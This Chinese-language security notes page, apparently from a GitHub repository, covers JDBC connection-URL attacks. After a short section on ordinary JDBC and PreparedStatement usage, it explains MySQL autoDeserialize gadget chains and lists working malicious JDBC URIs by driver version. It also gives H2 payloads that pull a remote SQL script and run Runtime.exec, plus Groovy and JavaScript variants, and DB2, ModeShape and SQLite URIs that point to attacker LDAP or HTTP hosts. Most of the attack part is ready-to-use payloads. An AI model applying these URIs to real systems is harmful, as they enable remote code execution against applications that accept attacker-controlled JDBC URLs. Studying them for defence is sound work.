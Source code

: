 # JDBC攻击

- [JDBC应用](#jdbc应用)
  
- [JDBC攻击-mysql](#jdbc攻击-mysql)
  - [ServerStatusDiffInterceptor调用链](#serverstatusdiffinterceptor调用链)
  - [detectCustomCollations调用链](#detectcustomcollations调用链)
  - [payload](#payload)

- [JDBC攻击-其他数据库](#jdbc攻击-其他数据库)
  - [H2](#h2)
  - [DB2](#db2)
  - [SQLite](#sqlite)
  - [ModeShape](#modeshape)

- [JDBC攻击-文件读取](#jdbc攻击-文件读取)




JDBC（Java DataBase Connectivity），是Java程序访问数据库的标准接口。常用的关系数据库包括：付费的（`Oracle、SQL Server、DB2、Sybase`）、开源的（`MySQL、PostgreSQL、Sqlite`）。JDBC接口通过JDBC驱动来访问数据库，而JDBC驱动由各个数据库厂商提供，也就是不同的数据库对应有各自的驱动。使用JDBC的好处就是不需要根据不同的数据库做开发，拥有统一的接口。

## jdbc应用

假如使用MySQL的JDBC驱动，只需要在maven中引入对应的jar包。scope设置为runtime，因为编译时并不需要此jar包，只在运行期使用。
```
<dependency>
    <groupId>mysql</groupId>
    <artifactId>mysql-connector-java</artifactId>
    <version>5.1.47</version>
    <scope>runtime</scope>
</dependency>
```

使用jdbc连接mysql中student数据库（mysql驱动后面跟的可选扩展参数包括`loadDataLocal、requireSSL、socksProxyHost、useAsyncProtocol、useServerPrepStmts、allowUrlInLoadLocal`等）
```java
String JDBC_URL = "jdbc:mysql://localhost:3306/student?requireSSL=false";
String JDBC_USER = "root";
String JDBC_PASSWORD = "password";
try (Connection conn = DriverManager.getConnection(JDBC_URL, JDBC_USER, JDBC_PASSWORD)) { // 获取数据库连接
    try (Statement stmt = conn.createStatement()) {
        try (ResultSet rs = stmt.executeQuery("SELECT id, name FROM students WHERE id=1")) {
            while (rs.next()) { // 获取列数据
                int id = rs.getInt(1); // ResultSet 索引从1开始，而不是0
                String name = rs.getString(2);
            }
        }
    }
}
conn.close();
```

`Statement`容易引发SQL注入，想要完全避免SQL注入可以使用`PreparedStatement`，使用占位符的方式。
```java
try (Connection conn = DriverManager.getConnection(JDBC_URL, JDBC_USER, JDBC_PASSWORD)) {
    try (PreparedStatement ps = conn.prepareStatement("SELECT id, name FROM students WHERE id=?")) {
        ps.setObject(1, id);
        try (ResultSet rs = ps.executeQuery()) {
            while (rs.next()) {
                int id = rs.getInt("id");
                String name = rs.getString("name");
            }
        }
    }
}
```

## jdbc攻击-mysql

上面提到mysql驱动的URL可选扩展参数有很多，其中一个叫做`autoDeserialize`，如果配置为true，客户端会自动反序列化服务端返回的数据。mysql-connector-java.jar中的类`com/mysql/cj/jdbc/result/ResultSetImpl.class#getObject()`方法如下。如果autoDeserialize属性值为true，就会进行反序列化操作。
```java
byte[] data = this.getBytes(columnIndex);
if (!(Boolean)this.connection.getPropertySet().getBooleanProperty(PropertyKey.autoDeserialize).getValue()) {
    return data;
} else {
    Object obj = data;
    if (data != null && data.length >= 2) {
        ...
        try {
            ByteArrayInputStream bytesIn = new ByteArrayInputStream(data);
            ObjectInputStream objIn = new ObjectInputStream(bytesIn);
            obj = objIn.readObject();
            objIn.close();
            bytesIn.close();
        } 
}
```
但是默认情况下客户端不会调用getObject()方法。就像找反序列化调用链一样需要找到上层的调用。

### serverstatusdiffinterceptor调用链

https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf这篇给出的链条如下
```
com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor#postProcess/preProcess()
  com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor#populateMapWithSessionStatusValues()
    ResultSetUtil#resultSetToMap()
```
最终走到的resultSetToMap方法如下，调用了getObject()方法
```java
public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
    while (rs.next()) {
        mappedValues.put(rs.getObject(1), rs.getObject(2));
    }
}
```
`ServerStatusDiffInterceptor`实现自QueryInterceptor接口，它对应扩展参数queryInterceptors。那么就可以构造一个恶意的JDBC URI来触发反序列化。
```
jdbc:mysql://attacker/db?queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```
### detectcustomcollations调用链

这条链最终也是走到resultSetToMap方法，核心是`com.mysql.jdbc.ConnectionImpl#buildCollationMapping()`方法，如果满足版本大于4.1.0并且detectCustomCollations值为true，就会调用到resultSetToMap方法，最终进行反序列化操作。
```java
if (this.versionMeetsMinimum(4, 1, 0) && this.getDetectCustomCollations()) { // 版本大于4.1.0，detectCustomCollations值为true
    java.sql.Statement stmt = null;
    ResultSet results = null;

    try {
        sortedCollationMap = new TreeMap();
        customCharset = new HashMap();
        customMblen = new HashMap();
        stmt = this.getMetadataSafeStatement();

        try {
            results = stmt.executeQuery("SHOW COLLATION");
            if (this.versionMeetsMinimum(5, 0, 0)) {
                Util.resultSetToMap(sortedCollationMap, results, 3, 2); // 调用resultSetToMap()
        }...
}
```

因为是服务端攻击客户端，还需要一个恶意的mysql服务端。这部分可以用工具: https://github.com/fnmsd/MySQL_Fake_Server

恶意mysql服务器的核心思路是将反序列化数据存储在对应的数据表中对应字段中。以detectCustomCollations调用链为例`Util.resultSetToMap(sortedCollationMap, results, 3, 2);`会对第三个字段进行获取，那么就需要创建一张表，列出至少三个字段，并将ysoserial生成的反序列化数据赋值给第三个字段。

### payload

另外由于不同版本jdbc扩展参数可能存在差异，工具中也给出了不同版本下的利用URI
```
# 8.x
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc

# 6.x
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc

# 5.1.11及以上的5.x版本 
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc

jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc

Ps: 如果是读文件需要加maxAllowedPacket=655360

# 5.1.10及以下的5.1.X版本: ServerStatusDiffInterceptor同5.x版本，但是需要连接后执行查询。detectCustomCollations不可用

# 5.0.x: 不存在ServerStatusDiffInterceptor，也不存在detectCustomCollations
```

## jdbc攻击-其他数据库
### h2
```
# 远程拉取sql脚本
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8089/poc.sql'

poc.sql: CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "run";}';CALL EXEC ('open -a Calculator.app')

# Groovy
jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "'"

String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")" + "})" + "def x";

# jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER test1 BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '" + javascript + "'"

String javascript = "//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";
```

### db2
```
jdbc:db2://127.0.0.1:5001/test:clientRerouteServerListJNDIName=ldap://ip:port/Evil;
```

### sqlite
```
jdbc:sqlite::resource:http://127.0.0.1:8888/poc.db
```

### modeshape
```
jdbc:jcr:jndi:ldap://ip:port/Evil
```

## jdbc攻击-文件读取
这篇文章已经说的很全了，漏洞定位`com.mysql.jdbc.MysqlIO#sendFileToServer`
https://lorexxar.cn/2020/01/14/css-mysql-chain/#Load-data-infile


